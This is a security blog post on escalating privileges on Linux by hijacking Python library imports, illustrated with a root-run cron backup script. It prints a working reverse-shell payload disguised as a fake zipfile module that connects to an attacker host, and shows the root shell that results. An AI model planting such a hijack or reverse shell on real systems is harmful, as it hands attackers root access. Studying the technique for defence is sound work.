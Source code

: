 ```yaml
---
layout: post
title: Privilege Escalation via Python Library Hijacking
date: 2017-09-11
categories:
  - security
  - websec
tags:
  - python
  - privilege escalation
  - privesc
  - library hijack
---
```

Whilst debugging a Python script today, I found that I was unable to execute it, with the stack trace pointing back to the import of the requests library.

```
Traceback (most recent call last):
  File "enum.py", line 1, in <module>
    import requests
  File "/usr/local/lib/python2.7/dist-packages/requests/__init__.py", line 84, in <module>
    from urllib3.contrib import pyopenssl
  File "/usr/local/lib/python2.7/dist-packages/urllib3/contrib/pyopenssl.py", line 46, in <module>
    import OpenSSL.SSL
  File "/usr/lib/python2.7/dist-packages/OpenSSL/__init__.py", line 8, in <module>
    from OpenSSL import rand, crypto, SSL
  File "/usr/lib/python2.7/dist-packages/OpenSSL/rand.py", line 11, in <module>
    from OpenSSL._util import (
  File "/usr/lib/python2.7/dist-packages/OpenSSL/_util.py", line 6, in <module>
    from cryptography.hazmat.bindings.openssl.binding import Binding
  File "/usr/local/lib/python2.7/dist-packages/cryptography/hazmat/bindings/openssl/binding.py", line 13, in <module>
    from cryptography.exceptions import InternalError
  File "/usr/local/lib/python2.7/dist-packages/cryptography/exceptions.py", line 7, in <module>
    from enum import Enum
  File "/home/rastating/enum.py", line 3, in <module>
    requests.get()
AttributeError: 'module' object has no attribute 'get'
```

After a bit of following through, I found that as the script was named `enum.py`, it was taking precedence over a module named `enum` that the requests library was relying on / trying to import; thus creating a circular reference.

Further digging into this, revealed that Python has a list of search paths for its libraries; meaning there is an opportunity for privilege escalation depending on mis-configurations of the system and how it's users are using it.

The paths that come configured out of the box on Ubuntu 16.04, in order of priority, are:

* Directory of the script being executed
* /usr/lib/python2.7
* /usr/lib/python2.7/plat-x86_64-linux-gnu
* /usr/lib/python2.7/lib-tk
* /usr/lib/python2.7/lib-old
* /usr/lib/python2.7/lib-dynload
* /usr/local/lib/python2.7/dist-packages
* /usr/lib/python2.7/dist-packages

For other distributions, run the command below to get an ordered list of directories:

```bash
python -c 'import sys; print "\n".join(sys.path)'
```

If any of these search paths are world writable, it will impose a risk of privilege escalation, as placing a file in one of these directories with a name that matches the requested library will load that file, assuming it's the first occurrence.

For example, if we have a script that imports the `requests` library, and the `requests` library is stored in `/usr/local/lib/python2.7/dist-packages`. If we create a new file named `requests.py` and place it in any of the six directories that appear in the list above prior to `/usr/local/lib/python2.7/dist-packages`, it would result in the successful hi-jacking of that library.

Realistically speaking, the chances of the default search paths being writable are slim, unless someone with root privileges took some horrible shortcuts (not completely unimaginable).

The more likely scenario, is that someone will place a frequently accessed script in a directory that is world writable and remove write access on the file from all other users.

This may seem OK on the face of it - but due to how Python is searching for libraries, this would open it up for a user to inject their own arbitrary Python code into the application.

For example, let's say we have a web server, where `/var/www` is owned by `www-data` (not an unheard of configuration), which contains a `root` owned backup script, which is executed every *N* minutes by a cron job:

```shell_session
$ whoami
www-data

$ ls -la .
total 16
drwxr-xr-x  3 www-data www-data 4096 Sep 11 23:44 .
drwxr-xr-x 15 root     root     4096 Sep 11 23:40 ..
-rw-r--r--  1 root     root      353 Sep 11 23:44 backup.py
drwxr-xr-x  2 www-data www-data 4096 Sep 11 23:42 html

$ cat backup.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

As can be seen in the output above, `backup.py` cannot be altered by the low privilege account, `www-data`. However, as it is importing libraries (the `os` and `zipfile` libraries to be specific), we can gain privilege escalation by hi-jacking one of these libraries.

If we wanted to gain remote access, we could create a new file, as `www-data` in the same directory as `backup.py`, named `zipfile.py`, with the following content:

```python
import os
import pty
import socket

lhost = "10.2.0.3"
lport = 4444

ZIP_DEFLATED = 0

class ZipFile:
    def close(*args):
        return

    def write(*args):
        return

    def __init__(self, *args):
        return

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
s.close()
```

Within this file, we have the code to gain a reverse shell (taken from [python-pty-shells](https://github.com/infodox/python-pty-shells/)), but also an additional dummy class and constant, to make the file compatible with the program that is calling it.

By adding the dummy class and constant, we ensure that no errors will be logged and that the calling program exits cleanly.

The next time the cron job runs, `backup.py` will load our version of the `zipfile` library, due to it appearing first in the search paths (as the current directory **always** comes first), and subsequently execute our payload with elevated privileges:

```shell_session
root@kali:~# ncat -v -l -p 4444
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 0F4F BD69 EB85 CB0A 0663 CEDB 8A12 4110 CEDD 7412
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.2.0.1.
Ncat: Connection from 10.2.0.1:52898.
root:/var/www# ls -la .
ls -la .
total 24
drwxr-xr-x  3 www-data www-data 4096 Sep 12 00:26 .
drwxr-xr-x 15 root     root     4096 Sep 11 23:40 ..
-rw-r--r--  1 root     root      353 Sep 11 23:44 backup.py
drwxr-xr-x  2 www-data www-data 4096 Sep 11 23:42 html
-rw-r--r--  1 www-data www-data  434 Sep 12 00:26 zipfile.py
-rw-r--r--  1 root     root     1097 Sep 12 00:26 zipfile.pyc
root:/var/www# id
id
uid=0(root) gid=0(root) groups=0(root)
root:/var/www#
```

